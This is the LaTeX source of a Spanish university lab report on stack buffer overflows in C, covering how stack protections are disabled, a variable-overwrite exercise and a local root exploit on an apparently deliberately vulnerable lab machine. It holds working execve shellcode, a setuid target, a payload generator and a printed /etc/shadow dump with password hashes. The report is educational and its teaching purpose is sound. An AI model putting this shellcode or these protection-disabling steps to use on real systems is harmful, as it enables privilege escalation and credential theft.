\documentclass[]{article}
\usepackage[utf8]{inputenc}
\usepackage[numbers]{natbib}
\usepackage{url}
\usepackage{hyperref}
\usepackage{graphicx}
\usepackage{amsmath}
\usepackage[spanish]{babel}
\usepackage{listings}   
\usepackage{color}
\usepackage{float}
\hypersetup{%
	pdfborder = {0 0 0}
}

\definecolor{orange}{rgb}{0.9,0.6,0}
\definecolor{hardgreen}{rgb}{0,0.4,0}
\definecolor{gray}{rgb}{0.2,0.2,0.2}

\lstdefinestyle{customc}{
	belowcaptionskip=1\baselineskip,
	breaklines=true,
	frame=L,
	xleftmargin=\parindent,
	language=C,
	showstringspaces=false,
	basicstyle=\footnotesize\ttfamily,
	keywordstyle=\bfseries\color{hardgreen},
	commentstyle=\itshape\color{gray},
	identifierstyle=\color{blue},
	stringstyle=\color{orange},
}

\lstset{escapechar=@,style=customc}
\lstset{language=C}

\author{Jose Luis Cánovas Sánchez - Ezequiel Santamaría Navarro}
\title{Buffer Overflow}

\begin{document}

\maketitle

\begin{abstract}
	Ataques y defensas contra buffer oveflow en programas escritos en bajo nivel (en C).
\end{abstract}

\tableofcontents

\newpage

\section{¿Qué es Buffer Overflow?}

En lenguajes de bajo nivel (en este caso, C) donde las comprobaciones sobre los tamaños en arrays, strings o buffers las tienen que hacer los usuarios y no el propio lenguaje (como harían otros lenguajes como Javascript o Python), es posible que por un error humano se de una circustancia como la siguiente:

\begin{lstlisting}
#include <string.h>

void foo (char *bar)
{
	char  c[12];
	strcpy(c, bar);  // se copia sin comprobar su longitud
}

int main (int argc, char **argv)
{
	foo(argv[1]);
}
\end{lstlisting}

El programador olvida comprobar cuál es el tamaño de \textit{bar} antes de copiarlo a \textit{c}. Pero, ¿y qué si el texto introducido es más largo?.

\begin{center}

\includegraphics[width=0.5\linewidth]{so}
\end{center}

Si el texto supera los 12 bytes, alcanzará eventualmente las porciones de la pila en verde y rojo, alterando valores de otras variables y modificando el valor de retorno (posición donde saltará el puntero de código después de hacer return). Esto podría alterar el funcionamiento esperado de una aplicación para obtener un privilegio, incluso remotamente, si los valores que no se comprueban vienen del exterior (como podría ser en aplicaciones web).

Por suerte, existen mecanismos de protección (automáticos, en tiempo de compilación, o incluso en el sistema operativo) que alteran los elementos en la pila (o añaden nuevos) para evitar ataques corrompiendo la información.

\subsection{Deshaciendo las medidas de protección}

Existen varios mecanismos para evitar los posibles ataques:

\begin{itemize}
	\item El kernel del sistema operativo puede dar direcciones aleatorias los espacios del programa, técnica conocida como ASLR\cite{ASLR}.
	\item El compilador de C GCC tiene un mecanismo de canario, una forma de detectar si se ha reescrito el valor de retorno en la pila\cite{bocanary}
	\item Además, GCC reordena las variables locales, poniendo en último lugar (técnicamente hablando, direcciones de memoria más grandes) los punteros que puedan ser vulnerables, haciendo más difícil que se reescriban ciertas variables que no sean punteros y que, el programador, no espere que sean editadas por culpa de un error.
\end{itemize}

Para desactivar el primero (ASLR, que es una opción del kernel), uno tiene que ordenar:

\begin{verbatim}
sudo sysctl -w kernel.randomize_va_space=0
\end{verbatim}

Y para desactivar la protección de la pila en el compilador GCC hay que usar la siguiente opción en el compilador:

\begin{verbatim}
-fno-stack-protector
\end{verbatim}


\newpage
\section{Ejercicio 1 - Ejemplo sencillo de Buffer Overflow}

En este ejercicio se busca cambiar el valor de un float, aprovechando que se hace una copia de memoria (memcpy) sin comprobar si el tamaño de la cadena origen es mayor que el de la cadena destino:

\begin{lstlisting}
#include <string.h>
#include <stdio.h>

void foo (char *bar)
{
	char  c[28];		   
	float myVar = 10.5;  
	
	printf("myVar value = %f\n", myVar);
	
	memcpy(c, bar, strlen(bar)); 
	
	printf("myVar value = %f\n", myVar);
}

int main (int argc, char **argv)
{
	foo("my string is too long !!!!!!\x00\x00\x20\x40");
	return 0;
}
\end{lstlisting}

El objetivo del ejercicio es cambiar el valor de myVar en foo por 2.5. Si uno inspecciona la cadena 

\begin{verbatim}
\x00\x00\x20\x40
\end{verbatim}

\noindent como un valor de coma flotante (little endian) se daría cuenta de que es la representación hexadecimal de los 4 bytes para 2.5  \cite{iee754}. Además, el resto de la cadena \textit{my string is too long !!!!!!} ya ocupan 28 bytes. Sin embargo, esto no es suficiente para que funcione por como funciona \textit{\textbf{strlen}}:

\begin{itemize}
	\item Los strings tipo C tienen un tamaño desconocido a priori. Para conocer su tamaño, se usa \textbf{strlen}. Los strings tipo C deben acabar con un carácter nulo (0). 
	\item El carácter $\symbol{92}x00$ equivale a un carácter nulo. Por lo tanto, la longitud de la cadena es 28 (en formato cadena tipo C) aunque en el código del programa haya 32 caracteres. 
\end{itemize}

Por lo tanto no se puede usar ningún carácter nulo en el intento de volcar nuevos valores o la función \textbf{strlen} dará valores menores a 32, que es lo mínimo necesario para que se vuelquen 4 bytes después de c (28 bytes en el string c + 4 bytes que ocupa el float myVar).

\newpage

La solución que proponemos nosotros es la siguiente:


\begin{lstlisting}
#include <string.h>
#include <stdio.h>

void foo (char *bar)
{
	char  c[28];		   
	float myVar = 10.5;  
	
	printf("myVar value = %f\n", myVar);
	
	memcpy(c, bar, strlen(bar)); 
	
	printf("myVar value = %f\n", myVar);
}

int main (int argc, char **argv)
{
	foo("my string is too long !!!!!!\x01\x01\x20\x40");
	return 0;
}
\end{lstlisting}

Que, aunque no deja el valor 2.5 exacto, deja como valor 2.5000613. 

La siguiente prueba efectivamente da el valor esperado:

\begin{verbatim}
	$ sudo sysctl -w kernel.randomize_va_space=0
	$ gcc -o example -fno-stack-protector bo1.c
	$ ./example
	myVar value = 10.500000
	myVar value = 2.500061
\end{verbatim}

\section{Ejercicio 2 - Ejecutando un shell mediante Buffer Overflow}

En este ejercicio vamos a dejar una aplicación vulnerable a buffer overflow correr con eid=0 y vamos a compilar una aplicación que inserte un shell
en el buffer overflow para ejecutar un shell como eid=0. Un ataque real (si no fuese ya por las medidas de protección contra buffer overflow) un atacante
que ya ha ganado ejecución arbitraria usaría este ataque para escalar privilegios, y continuar con el ataque desde root.



\begin{minipage}{\linewidth}
Primero, construimos un shell en ensamblador embebido en C:
\begin{lstlisting}
/*A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char code[] =
	"\x31\xc0" /* Line 1: xorl %eax,%eax */
	"\x50" /* Line 2: pushl %eax */
	"\x68""//sh" /* Line 3: pushl $0x68732f2f */
	"\x68""/bin" /* Line 4: pushl $0x6e69622f */
	"\x89\xe3" /* Line 5: movl %esp,%ebx */
	"\x50" /* Line 6: pushl %eax */
	"\x53" /* Line 7: pushl %ebx */
	"\x89\xe1" /* Line 8: movl %esp,%ecx */
	"\x99" /* Line 9: cdq */
	"\xb0\x0b" /* Line 10: movb $0x0b,%al */
	"\xcd\x80" /* Line 11: int $0x80 */
	;
	
int main(int argc, char **argv)
{
	char buf[sizeof(code)];
	strcpy(buf, code);
	((void(*)( ))buf)( );
}
\end{lstlisting}
\end{minipage}
 
\vspace{10pt}

Si lo compilamos y ejecutamos, la línea 

\begin{lstlisting}
((void(*)( ))buf)( );
\end{lstlisting}

hace saltar el contador de programa al ensamblador escrito en code[], que se ha copiado en buf[].

\begin{verbatim}
	gcc bo2shell.c -z execstack -o bo2shell
	msfadmin@metasploitable:~$ ./bo2shell 
	sh-3.2$ echo hi
	hi
	sh-3.2$ id
	uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),...
\end{verbatim}

Vemos que el id del shell es el mismo que el usuario que lo ejecuta, comportamiento esperado. Ahora, si construimos una aplicación vulnerable a stack buffer overflow:

\begin{minipage}{\linewidth}
\begin{lstlisting}
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(char *str)
{
	char huecos[16];
	char buffer[24];
	fprintf(stderr, "buffer: \n%p\n", buffer);
	/* The following statement has a buffer overflow problem */
	strcpy(buffer, str);
	return 1;
}

int main(int argc, char **argv)
{
	char str[517];
	FILE *badfile;
	badfile = fopen("badfile", "r");
	fread(str, sizeof(char), 517, badfile);
	bof(str);
	printf("Returned Properly\n");
	return 1;
}
\end{lstlisting}
\end{minipage}

La aplicación vulnerable hay que compilarla con (para que el effective id sea el de root):

\begin{verbatim}
$ gcc bo2xploit.c -z execstack -fno-stack-protector -o bo2xploit -g
# chown root:root bo2xploit
# chmod 4755 bo2xploit
\end{verbatim}

\noindent Nota: la opción -g de depuración la hemos activado para poder depurar con gdb. No es necesaria, pero si no se usa habrá que cambiar la dirección a la que saltar (porque cambiará de posición el buffer).

En la aplicación vulnerable, podemos ver que hemos introducido un buffer de 24 bytes y que es justo el tamaño del ensamblador escrito en la primera parte. También \textbf{hemos metido 16 bytes de hueco porque sino los \textit{pushes} del ensamblador para hacer la llamada al sistema autodestruyen las propias instrucciones}.  Además hemos introducido también un printf mostrando la posición de buffer para saber a donde hay que saltar.


\begin{minipage}{\linewidth}
Para imprimir el badfile, generamos este programa:

\begin{lstlisting}
/*A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char code[] =
	"\x31\xc0" /* Line 1: xorl %eax,%eax */
	"\x50" /* Line 2: pushl %eax */
	"\x68""//sh" /* Line 3: pushl $0x68732f2f */
	"\x68""/bin" /* Line 4: pushl $0x6e69622f */
	"\x89\xe3" /* Line 5: movl %esp,%ebx */
	"\x50" /* Line 6: pushl %eax */
	"\x53" /* Line 7: pushl %ebx */
	"\x89\xe1" /* Line 8: movl %esp,%ecx */
	"\x99" /* Line 9: cdq */
	"\xb0\x0b" /* Line 10: movb $0x0b,%al */
	"\xcd\x80" /* Line 11: int $0x80 */
	"\x01\x01\x01\x01" /* huecos */
	"\x01\x01\x01\x01" /* huecos */
	"\x01\x01\x01\x01" /* huecos */
	"\x01\x01\x01\x01" /* huecos */
	"\xb0\xfa\xff\xbf" /* posicion del buffer en bo2xploit */ 
	"\xb0\xfa\xff\xbf" /* posicion del buffer en bo2xploit */ 
;

int main(int argc, char **argv)
{
	int i;
	for (i = 0; i < sizeof(code); i++)
		printf("%c",code[i]);
}
\end{lstlisting}
\end{minipage}

El programa no requiere ninguna opción de compilación especial, solamente redirigir la salida a badfile.

Una vez que tenemos todo compilado, hacemos la siguiente prueba:

\begin{verbatim}
$ ./bo2echo > badfile # generar el badfile
$ cat /etc/shadow # intentamos leer shadow
cat: /etc/shadow: Permission denied
$ ./bo2xploit # explotar
sh-3.2# cat /etc/shadow
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
ftp:*:14685:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
mysql:!:14685:0:99999:7:::
tomcat55:*:14691:0:99999:7:::
distccd:*:14698:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:14715:0:99999:7:::
telnetd:*:14715:0:99999:7:::
proftpd:!:14727:0:99999:7:::
statd:*:15474:0:99999:7:::
snmp:*:15480:0:99999:7:::
\end{verbatim}

Y entonces ya tenemos permisos de super usuario.

\subsection{Otras tareas del ejerecicio 2}
El documento del ejercicio 2 unas tareas adicionales donde dice que se active el ASLR, la protección del la pila, o que se ponga no ejecutable la pila.

\vspace{10pt}

Respondemos brevemente lo que sucede en cada caso porque ya hemos explicado la teoría en el primer apartado:

\begin{itemize} 
	\item Si se activa el ASLR, cada vez que se ejecuta el código, el valor \$buffer (la dirección del buffer) cambia aleatoriamente unas pocas posiciones, de manera que aunque reescribamos el valor de retorno, saltará a una zona no legible, o si es legible, con instrucciones distintas a las que queremos.
	\item Si se desactiva que la pila pueda ser ejecutable, en el momento en el que el contador de programa apunta a un valor de la zona de la pila la aplicación deja de funcionar.
	\item Si se activa la protección de la pila, a parte de reordenar los bufferes, se añade un canario con un valor aleatorio antes del valor de retorno. Si el valor del canario es distinto al original, el programa deja de funcionar. Como nosotros no podemos saber de ninguna forma el valor del canario, nunca conseguiríamos romper esa protección.	
\end{itemize}

\section{Conclusión}

%TODO: jl rellena más
Actualmente los ataques por Stack Buffer Overflow no son tan útiles como antes por los mecanismos de protección, aunque todavía pueden ser útiles para sobreescribir variables cercanas a los bufferes que no hayan sido reordenadas.

\newpage

\bibliographystyle{amsplain}
\bibliography{memoria}


\end{document}